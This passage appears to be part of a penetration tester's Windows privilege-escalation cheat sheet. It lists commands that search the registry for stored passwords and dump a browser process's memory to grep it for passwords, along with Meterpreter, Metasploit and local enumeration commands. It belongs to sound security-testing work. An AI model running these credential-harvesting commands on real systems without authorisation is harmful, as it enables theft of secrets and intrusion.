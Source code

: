 ```
# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Reconfigure service parameters

- Unquoted service paths

- Weak service permissions

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

### Dump process for passwords

```powershell
# Looking for Firefox
Get-Process
./procdump64.exe -ma $PID-FF
Select-String -Path .\*.dmp -Pattern 'password' > 1.txt
type 1.txt | findstr /s /i "admin"
```

### Inside service

Check netstat to see what ports are open from outside and from inside. Look for ports only available on the inside.

```
# Meterpreter
run get_local_subnets

netstat /a
netstat -ano
```

### Programs running as root/system

### Installed software

```
# Metasploit
ps

tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```
